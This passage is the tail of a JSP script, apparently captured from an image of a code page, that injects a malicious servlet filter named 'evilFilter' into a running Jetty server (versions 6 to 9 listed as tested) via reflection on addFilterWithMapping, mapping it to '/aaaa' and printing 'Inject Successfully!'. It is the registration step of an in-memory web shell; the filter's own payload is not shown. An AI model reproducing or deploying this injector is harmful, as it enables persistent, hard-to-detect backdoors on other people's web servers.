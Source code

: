 ```jsp
        /**
         *  Tested version:
         *      6.x (6.1.26)
         *      7.x (7.5.0)
         *      8.x (8.2.0)
         *      9.x (9.4.43)
         */
        try{
            servletHandler.getClass().getMethod("addFilterWithMapping", String.class, String.class, java.util.EnumSet.class).invoke(servletHandler,evilFilter.getName(),"/aaaa",java.util.EnumSet.of(DispatcherType.REQUEST));
        }catch (Exception e){
            servletHandler.getClass().getMethod("addFilterWithMapping", String.class, String.class,int.class).invoke(servletHandler, evilFilter.getName(),"/aaaa", 1);
        }
        out.write("<br>" + evilFilter.getName() + " Inject Successfully!");
    }catch (Exception e){
        e.printStackTrace();
    }
%>

```

